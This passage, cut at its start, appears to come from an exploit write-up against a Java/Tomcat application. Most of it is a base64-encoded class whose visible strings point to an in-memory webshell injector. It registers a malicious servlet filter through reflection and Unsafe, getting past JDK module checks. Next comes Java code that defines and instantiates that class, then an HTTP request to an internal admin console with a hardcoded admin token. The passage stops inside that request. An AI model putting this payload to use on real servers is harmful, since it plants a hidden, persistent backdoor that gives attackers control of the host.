mF3TFQyY0ZUclNQVUZ0TVFPTlJEaFNtbDdMS2hHZHFtMGllK1pSWnZlRzA0S2JHdi9QenUwemdVRkRpZHNtQ293MTlzK29XdnJwTDNpa01Ec1NmYWxrT2xTaUpzMG95U2RlaUljN1dsT2hTTUdQck9jS0pOcWJIRnlTai9IVTFMT0hIaUtZY0Zjd3FYRzQxcTBXNkRHVzBoWVViQ1UwVUlSODNDQlZEU2ZRTy9YQmwxWWFJcGNKT0RRWXlheHdFeHZvUWp5WG9nbGtuY3BlZnU2Vndrc095L2RaRndPcjVOS0t1VE1VRmRGeExZeFZyeDdteXZHbzdaT3dCSU04TEczV2FDa1d3c3hCSXdOb2tmNnRyWkNEaGRXWUtWRStDTEtQU2lna0c1UGhlUjNqNUsySGd4cWNUMGNpeXBZVGJJZzFSdUNEdnFDaWNHNEh2TzFoT085eEloSE1LQW02clBiNDVpNUxXaUo2T1AvSGdWMUdSWGpoQ2hvRXBqU3FhdkIvWDQxbm9sU2ExTnJwd1BNdTVJZVRXK0xKblUxR3VSeXhhUW9qcmZNaFV0eG1SUE4yQ3l3WUF4Qk1xNEZmWjFhTUtIcFc3VEJUcjRwdUZ4ZytuakJDdHA1MEZUZlBLaHJkTVBtSlVvdWRHQ3JFMzVjWVNJOGdUbTdaQXh2ZDJJTE9za2tNMVdTdHBtVVNTMllTb1QxUVI5Vkc2UTdzVXRhdVpzSDBSMjdOQnhWSXd4WWVkUlNWeGYyeU0yOUFoZU1ZL2RyeWFUYW8yMEs5MmhKblRoYjZRMmYvazJySExoR29Qd3MxQXBVZ1JXVGgrTWtPaVNnUVNjQ1lDTFpJMXEwUis4MUNsQ2JDeUgwU0VqNGJrL0Z1MVZkTTZPSzBVY0g5MkcvNUtKYk13M3hmYXJlNjJzTzk3UkZkYTFIbm42VWJOMkdEaGZpRXR3QStpVUdiUVRCd0RMcFJBeTZ6SUMyU1ZKdFFGSWNZTERvc1ozTTlVU0xtdFJjR0pRcDZBZXJqU3ZBaFliNjFtalFxSlJsNDFJcEk0bFdteFNKc1NWbGEyQ2ZGcFFnMjAweEFqTW15RU9aQ0EzTXhBQkRwV2hBamFTMFRFelZwdlJ3cExiWllIWGdGaGJxY2N3SzNrTFZvVmlpUSswajA5SnpWSXBzR3I4VnR6cHhHRzhUY0RKSU01WTc4QTRhdjdlQVhNRzdCSXBKNTlmMDNoaVBjT01FV2dyWjh2VW10RkNFT1BoTUNUVGdOcnhIR3ZCZXB2WGVRcmdVdkU5Z3ptVHNDajVBUE1QUmdkaCt1cnpXVzhnL2djaUt3aVVYN3NDSG5QZ2dQandtZzgxZEJSOHhNemhURXQzZWlYRDhLRDdteEJGOFhHQ3Fab0M0STFQYkhmZ0VZeVdaaXRiMmhaUEIydWFtenRac0RCSG51eGh1VWUzQWFHMGFleEhrN0R1R1QwdVVQa04zVGZFT2ZJNUhsaXVTdE1zaE0xL2U3Z0txUkdMc3hkOXBqdHUxL3BUTXc4bjNrM0ZLMHdvSlROa3R2V280YXR5L0MwZXROSzNYdzZxMEpLL29IeDlMRllsb1BXcWtLUmhrUmNpak9zRzZIdUkvbmM4L3dPM21TWWNIdEszTXhiR2laUmFwaWNUV0ZQTjVnY2tUanZsa2hXMUtKTlJCcnNkVE91SFgxRDZaajBrcUpKZkE0Z0t2ZW5VOTd0dk1SNmRKSTFPUXRZZTFiV3B5REdKMDVWeVlNaWVUWTFFVVdIUk9vSm5uUVFtcVdaMG54NXgrSkxLbVZKek5qM0UyT1JJNVl5clBneTFuMWZ5emU2dmdFZU5LUEt0ekNyNXUzQ0tUZXFYZ01ZSGw1K21NZ204eVJNN1hCUVhmTXNMdjdPZXQ0TnNFL3F3UnBPQTdiTHpPTHpBVlBNT3M3TlZrRnlycnNBdmZNOXV2WjgyNnVkblljZUg3OEpiZ0NUelA3RGVKZDhsUzc4SUxKdlVQZVd6QldGUW5Ra3pzOGpGdGNLK2E2SlI0c0Zxc3E5amp3by93WTNrLy9jUXM0SjNaVUYvaVBXdVFtTUh1d3Mvd2MybklMM2k3a2ZzS05VR2pkV25ocjB3TGY1Mjc5alpwMld0dmdvdEZ0aG0veGU5a3kvbDdGMWFoUWM3K3lKQ05xNE1SOXVRTy9NblUwS1NUSTVDU2wvdTVldGxjN2Zzei9sS0NwL0JYNW1TMkNwdDl2b0Nuc0JiblBnSCtoci9Ma3ZrUGFZcmJoUnJVeXRtL2FFZHlqQjNMSjdCamdsdURUY1MvOFI5cHlBaWhqbWVSU2pxRWtFQ05PUEcwOGMyU0Z5Z3Axc1ErYlRRNEJMKzY1dVJyMjlHYmlCMlFyYXJaN3duRktlekNJV3Q4ZjBxTkpHV3pNb0VsZTF6Q0tVcDQyd2lYR1ZXNzJXaEpOR1puMFdBb1gwRS9NaHZyWEdLcW1GYUNKOFYwMGlkVGdXVG1vNlBNMnpaaEx5UktoWnN4SldabXUvbXg4aFJSeHFKMVFNN0hXVGphdklvNXd1TVVzOFZjZVNrdU5YcXFYSEs1eEFXeVFYdGF6SGZoT2x6UFV4RUxxVlAyWDM2eFdHRFQvMzU3U1RqdkVVdEs4TGhZT2tFVnlKRG5uY3p5UEZmYnR1WnRWTWo2SEZFUEhaS3R0WmJwNjJTWHhxOHhLNEVzdk52TlJFazRoSStoWnJJMHAwSWh1YkxDVE5JY3hVV3lhVFZlSElMeUZoVTZucW1Wc1dnbzNHTmN1NjVRM2dxcjlOazVES05wWld5UUZXVjlNSkw1NGk4SzlXKzVjdEFoMXJQZENhNVExVldoUVBmcUJrMWJWY2ZtVXBEQUxtL3B1TzRRRzNtcEhVZ0d1OVhBdGtQYjkyK0o3K3hxY29obUxHSW0yVUE2RktGWWZtSUNjTWlQWldOY2FJeEMxajVqZk1FWVN6amp0ejJmeFh4cmdwVXp3RjA1aEdtVmJ0RjBQNTdqMEhJL1hyeVh5eFk0K1pRSkM4eEhLUmFRSFhDWkxCeW5HSUw1bFo4UkY2RTVrcmF1c21vSU04ZktPNDJ5cmlITVBvSHlOQmFjd0dJKzAxaDJDcFVuVVQycWF5b05BaFpUK29Yd1lZbWhyOHlVbWRFblp6Tm9DM3NWV1UweW1qZGtOQmRYVmxtckhocEMvZkdjU0x0aDd2SThVY1U1VWNWVVVtZUlZclhNaUhxV0hEYU9WYVd0cDlEV1VUUHZEaWkyWTdBVm5jYVdMc1B3YmFXdFE5aVJ4cFUxVldsY2RieERITStvOEdJTjdYY2Fpb3I0cktHb1ducmo0MDRkS3ZpMUxvMm81NTZkcTJ2UlNPb0ttclFPNncyL3EzS0dWZEdqT2tOcUZTN0dKYVJwNFp4VUk1Z0dtd0tMZ28xQzRmZWtmSXh3SzMrTmsyWXhndG13WmhZbDFSb2pSTHdaSittUG9iRk90SmUrL2hRMGYzVWwvYkx5RVU2ajd6UmlYYmJxTkJKRFNFMmZuc2JCTks1dEo0dS9TbnBxUVNVOXkzbzZuK2NQZ21maGlvTSt6YUpYbGJTMGhsN1YwZ3ZwOFVMU091anh4WGhkNWl3M0dNRm9JY1hWbkFuRE96Y3NJMlNqeFg3K1RKdHBMSXNUQ1dtMGFETWlIVGhJbzk5OENtLzNWNWUrVTV6QnU5TzR2WnJqKzlPNHM2TW1qYU9sbjdROWlNTmQxdEtObmR5cTRjdVJMbXNsNTNlZWdaOStyTzBvL1pUQm5zWm5HMjBlbTJTNU81L0ZZeXZnS1dxMDBYa0wvelpnSXcxclFqLzBIQWdyZVhBeW15ellSRWRiVWM0UDdBM29JT1ZsWEczajgzSjZ0SVU4Zm5LMVl3QmJEV0EyRTd4eUFuTURialFnV29PYjhBWks4VFAwNVpxTm5EV1p0U2JHNkJzemdYSVFieUtJRXNBQjNKd0RzRUtHeDBianlMTUFqdUFpR1JyR3U4UlRycjFLOHMvTGtPSElGZHlETDVnQVcrNG12RFJMektzNmd5Y2FiZFZuOEdSamtjZFdlUitlRzhZUExIZ0VMK1c5Y2ZKaUdqKzlBODk3Yk1QNHBVQ2p2ZEpqWTRJUDR6Y1dwUEdIUnFYU28xalRlS2xSOGRoTFh4N0dLeFk4aXNWeWZocVdMZ2JiMFRSZUhjSS9QVW9hcncyemxETXViL1hZM01MaVVZYUYxWXJUZUxwclNOZ2FIVG4rTXpnc1Q2MzRHS1kxT2s4TGU1ZkhPU1NLSC9ZVWV4eHBNV1UzUjVzeEZnMkxHUUluVUcxbEFJdFphVkh1S1U2TGVkbU5Ta20rZ0NmLzBpbXhTRzdtNkNYNWhWdzVocEthcXVwaHNVd2FOYVhSbm4yNWwxYmVocU80aXpOelBBbDV0Yy9JQmNNK3pPVnpCNE4xSjhOaU43UC9TdTUxOGJEM1lCdjJNZ2V1WWxCZnphN29Ha29JVUlaR0tVR3E2YWJNRUlZUnhwY281Um5zeC9Pc3FTK2pUMWdSRjNiMGk2bElVVk5TdUtHTGNod3dndWhtMW95ajFIMGZBNmFZVXB5NG4rZzdLVHVCSVp4aVdOMkw3Wm5kTlhpYzhoK2diWnNKN21rR2tVSlpEbktzNXhwUFBsdUJPUHNpSHBRVmlMT0g4TERNVzg3TzBESXI3S0lNWDhaWEdFRXVNUjFmeGRjWU55MUcvWGVNMERXSFVYWWVWZkFOQlk4cmVFTEJrd3FlWWhRQ0k2eEF4Wk50SzJ6ZUdLRGZmUTBsQ282TUVDeDdJU25EVkdsbUZCY2JNV3huMitJVmxiU1RqYThaeFhnbFV5YjYzYUxPU0hPM1dKbkpici9NYnBuMlpuNVhtZm05a2IvamZxT2tkTlM0UmIzMVFSbGt0d3VPUjBpUUtSRnUwWkF2SlZzajhtVVlCYnM2cnpqT2xhRGlXcWJlZFZ5OW51WHVCcGIvRzFrUmJqS083bUx1SzFnbXFvd01yOGNHWTJibHZsZFVHL2xmaXhaUnc4T1JaYk0vZHozMGk5cGMxdk4rNjVPcG5aL1NPOFhxREJpcmpDckJzeHU5WTgwTDhaYThDMUhrQkF1eFJxd2RyUStDOTRWb3pMVUxWUWJ0Qk1JTzV6VUdXV0VPc1M3SDJHcW9ZWVZ5aXcwblVlNFdsNXpFNG5OMUJDTFhmYmhZSkwyWUIvd1h1dU83LzhZWkFBQT0IABEBAAY8aW5pdD4BABUoTGphdmEvbGFuZy9TdHJpbmc7KVYMABMAFAoAEAAVAQADKClWAQATamF2YS9sYW5nL0V4Y2VwdGlvbgcAGAwAEwAXCgAEABoBAA9ieXBhc3NKREtNb2R1bGUMABwAFwoAAgAdAQAKZ2V0Q29udGV4dAEAEigpTGphdmEvdXRpbC9MaXN0OwwAHwAgCgACACEBAA5qYXZhL3V0aWwvTGlzdAcAIwEACGl0ZXJhdG9yAQAWKClMamF2YS91dGlsL0l0ZXJhdG9yOwwAJQAmCwAkACcBABJqYXZhL3V0aWwvSXRlcmF0b3IHACkBAAdoYXNOZXh0AQADKClaDAArACwLACoALQEABG5leHQBABQoKUxqYXZhL2xhbmcvT2JqZWN0OwwALwAwCwAqADEBAAlnZXRGaWx0ZXIBACYoTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwwAMwA0CgACADUBAAlhZGRGaWx0ZXIBACcoTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9PYmplY3Q7KVYMADcAOAoAAgA5AQAmKClMamF2YS91dGlsL0xpc3Q8TGphdmEvbGFuZy9PYmplY3Q7PjsBACBqYXZhL2xhbmcvSWxsZWdhbEFjY2Vzc0V4Y2VwdGlvbgcAPAEAH2phdmEvbGFuZy9Ob1N1Y2hNZXRob2RFeGNlcHRpb24HAD4BACtqYXZhL2xhbmcvcmVmbGVjdC9JbnZvY2F0aW9uVGFyZ2V0RXhjZXB0aW9uBwBAAQATamF2YS91dGlsL0FycmF5TGlzdAcAQgoAQwAaAQAQamF2YS9sYW5nL1RocmVhZAcARQEACmdldFRocmVhZHMIAEcBAAxpbnZva2VNZXRob2QBADgoTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvT2JqZWN0OwwASQBKCgACAEsBABNbTGphdmEvbGFuZy9UaHJlYWQ7BwBNAQAHZ2V0TmFtZQwATwAGCgBGAFABABxDb250YWluZXJCYWNrZ3JvdW5kUHJvY2Vzc29yCABSAQAIY29udGFpbnMBABsoTGphdmEvbGFuZy9DaGFyU2VxdWVuY2U7KVoMAFQAVQoAEABWAQAGdGFyZ2V0CABYAQAFZ2V0RlYMAFoASgoAAgBbAQAGdGhpcyQwCABdAQAIY2hpbGRyZW4IAF8BABFqYXZhL3V0aWwvSGFzaE1hcAcAYQEABmtleVNldAEAESgpTGphdmEvdXRpbC9TZXQ7DABjAGQKAGIAZQEADWphdmEvdXRpbC9TZXQHAGcLAGgAJwEAA2dldAwAagA0CgBiAGsBAAhnZXRDbGFzcwEAEygpTGphdmEvbGFuZy9DbGFzczsMAG0AbgoABABvAQAPamF2YS9sYW5nL0NsYXNzBwBxCgByAFABAA9TdGFuZGFyZENvbnRleHQIAHQBAANhZGQBABUoTGphdmEvbGFuZy9PYmplY3Q7KVoMAHYAdwsAJAB4AQAVVG9tY2F0RW1iZWRkZWRDb250ZXh0CAB6AQAVZ2V0Q29udGV4dENsYXNzTG9hZGVyAQAZKClMamF2YS9sYW5nL0NsYXNzTG9hZGVyOwwAfAB9CgBGAH4BAAh0b1N0cmluZwwAgAAGCgByAIEBABlQYXJhbGxlbFdlYmFwcENsYXNzTG9hZGVyCACDAQAfVG9tY2F0RW1iZWRkZWRXZWJhcHBDbGFzc0xvYWRlcggAhQEACXJlc291cmNlcwgAhwEAB2NvbnRleHQIAIkBABpqYXZhL2xhbmcvUnVudGltZUV4Y2VwdGlvbgcAiwEAGChMamF2YS9sYW5nL1Rocm93YWJsZTspVgwAEwCNCgCMAI4BABNqYXZhL2xhbmcvVGhyb3dhYmxlBwCQAQANY3VycmVudFRocmVhZAEAFCgpTGphdmEvbGFuZy9UaHJlYWQ7DACSAJMKAEYAlAEADmdldENsYXNzTG9hZGVyDACWAH0KAHIAlwwACQAGCgACAJkBABVqYXZhL2xhbmcvQ2xhc3NMb2FkZXIHAJsBAAlsb2FkQ2xhc3MBACUoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvQ2xhc3M7DACdAJ4KAJwAnwwADAAGCgACAKEBAAxkZWNvZGVCYXNlNjQBABYoTGphdmEvbGFuZy9TdHJpbmc7KVtCDACjAKQKAAIApQEADmd6aXBEZWNvbXByZXNzAQAGKFtCKVtCDACnAKgKAAIAqQEAC2RlZmluZUNsYXNzCACrAQACW0IHAK0BABFqYXZhL2xhbmcvSW50ZWdlcgcArwEABFRZUEUBABFMamF2YS9sYW5nL0NsYXNzOwwAsQCyCQCwALMBABFnZXREZWNsYXJlZE1ldGhvZAEAQChMamF2YS9sYW5nL1N0cmluZztbTGphdmEvbGFuZy9DbGFzczspTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDsMALUAtgoAcgC3AQAYamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kBwC5AQANc2V0QWNjZXNzaWJsZQEABChaKVYMALsAvAoAugC9AQAHdmFsdWVPZgEAFihJKUxqYXZhL2xhbmcvSW50ZWdlcjsMAL8AwAoAsADBAQAGaW52b2tlAQA5KExqYXZhL2xhbmcvT2JqZWN0O1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7DADDAMQKALoAxQEAC25ld0luc3RhbmNlDADHADAKAHIAyAEADWdldEZpbHRlck5hbWUBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nOwEAAS4IAMwBAAtsYXN0SW5kZXhPZgEAFShMamF2YS9sYW5nL1N0cmluZzspSQwAzgDPCgAQANABAAlzdWJzdHJpbmcBABUoSSlMamF2YS9sYW5nL1N0cmluZzsMANIA0woAEADUAQAgamF2YS9sYW5nL0NsYXNzTm90Rm91bmRFeGNlcHRpb24HANYBACBqYXZhL2xhbmcvSW5zdGFudGlhdGlvbkV4Y2VwdGlvbgcA2AEAEWdldENhdGFsaW5hTG9hZGVyDADaAH0KAAIA2wwAygDLCgACAN0BAA1maW5kRmlsdGVyRGVmCADfAQBdKExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nO1tMamF2YS9sYW5nL0NsYXNzO1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7DABJAOEKAAIA4gEAL29yZy5hcGFjaGUudG9tY2F0LnV0aWwuZGVzY3JpcHRvci53ZWIuRmlsdGVyRGVmCADkAQAHZm9yTmFtZQwA5gCeCgByAOcBAC9vcmcuYXBhY2hlLnRvbWNhdC51dGlsLmRlc2NyaXB0b3Iud2ViLkZpbHRlck1hcAgA6QEAJG9yZy5hcGFjaGUuY2F0YWxpbmEuZGVwbG95LkZpbHRlckRlZggA6wEAJG9yZy5hcGFjaGUuY2F0YWxpbmEuZGVwbG95LkZpbHRlck1hcAgA7QEAPShMamF2YS9sYW5nL1N0cmluZztaTGphdmEvbGFuZy9DbGFzc0xvYWRlcjspTGphdmEvbGFuZy9DbGFzczsMAOYA7woAcgDwAQANc2V0RmlsdGVyTmFtZQgA8gEADnNldEZpbHRlckNsYXNzCAD0AQAMYWRkRmlsdGVyRGVmCAD2AQANc2V0RGlzcGF0Y2hlcggA+AEAB1JFUVVFU1QIAPoBAA1hZGRVUkxQYXR0ZXJuCAD8DAAFAAYKAAIA/gEAMG9yZy5hcGFjaGUuY2F0YWxpbmEuY29yZS5BcHBsaWNhdGlvbkZpbHRlckNvbmZpZwgBAAEAF2dldERlY2xhcmVkQ29uc3RydWN0b3JzAQAiKClbTGphdmEvbGFuZy9yZWZsZWN0L0NvbnN0cnVjdG9yOwwBAgEDCgByAQQBAA1zZXRVUkxQYXR0ZXJuCAEGAQASYWRkRmlsdGVyTWFwQmVmb3JlCAEIAQAMYWRkRmlsdGVyTWFwCAEKAQAdamF2YS9sYW5nL3JlZmxlY3QvQ29uc3RydWN0b3IHAQwKAQ0AvQEAJyhbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwwAxwEPCgENARABAA1maWx0ZXJDb25maWdzCAESAQANamF2YS91dGlsL01hcAcBFAEAA3B1dAEAOChMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7DAEWARcLARUBGAEAD3ByaW50U3RhY2tUcmFjZQwBGgAXCgAZARsBACBbTGphdmEvbGFuZy9yZWZsZWN0L0NvbnN0cnVjdG9yOwcBHQEAFnN1bi5taXNjLkJBU0U2NERlY29kZXIIAR8BAAxkZWNvZGVCdWZmZXIIASEBAAlnZXRNZXRob2QMASMAtgoAcgEkAQAQamF2YS51dGlsLkJhc2U2NAgBJgEACmdldERlY29kZXIIASgBAAZkZWNvZGUIASoBAB1qYXZhL2lvL0J5dGVBcnJheU91dHB1dFN0cmVhbQcBLAoBLQAaAQAcamF2YS9pby9CeXRlQXJyYXlJbnB1dFN0cmVhbQcBLwEABShbQilWDAATATEKATABMgEAHWphdmEvdXRpbC96aXAvR1pJUElucHV0U3RyZWFtBwE0AQAYKExqYXZhL2lvL0lucHV0U3RyZWFtOylWDAATATYKATUBNwEABHJlYWQBAAUoW0IpSQwBOQE6CgE1ATsBAAV3cml0ZQEAByhbQklJKVYMAT0BPgoBLQE/AQALdG9CeXRlQXJyYXkBAAQoKVtCDAFBAUIKAS0BQwEABGdldEYBAD8oTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsMAUUBRgoAAgFHAQAXamF2YS9sYW5nL3JlZmxlY3QvRmllbGQHAUkKAUoAvQoBSgBrAQAeamF2YS9sYW5nL05vU3VjaEZpZWxkRXhjZXB0aW9uBwFNAQAQZ2V0RGVjbGFyZWRGaWVsZAEALShMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9yZWZsZWN0L0ZpZWxkOwwBTwFQCgByAVEBAA1nZXRTdXBlcmNsYXNzDAFTAG4KAHIBVAoBTgAVAQASZ2V0RGVjbGFyZWRNZXRob2RzAQAdKClbTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDsMAVcBWAoAcgFZCgC6AFABAAZlcXVhbHMMAVwAdwoAEAFdAQARZ2V0UGFyYW1ldGVyVHlwZXMBABQoKVtMamF2YS9sYW5nL0NsYXNzO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");
                Class clazz = (Class) defineClass.invoke(Thread.currentThread().getContextClassLoader(), bytecode, 0, bytecode.length);
                clazz.newInstance();
            } catch (Exception ex) {
                throw new RuntimeException(ex);
            }

        } catch (IllegalAccessException | NoSuchFieldException e) {
            throw new RuntimeException(e);
        }
        try {
            if (clazz != null) {
                clazz.getConstructor().newInstance();
            } else {
                System.err.println("Class object is null, cannot initialize.");
            }
        } catch (Exception initException) {
            throw new RuntimeException("Failed to initialize class instance.", initException);
        }
    }
}
```

Send payload.

```http
POST /internal/api/v1/admin/console HTTP/1.1
Host: localhost:8080
Sec-Fetch-Dest: empty
Origin: http://localhost:8080
X-Admin-Token: N3tW4tch3r_Sup3r_S3cr3txxx_K3y_2024
Sec-Fetch-Site: same-origin
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
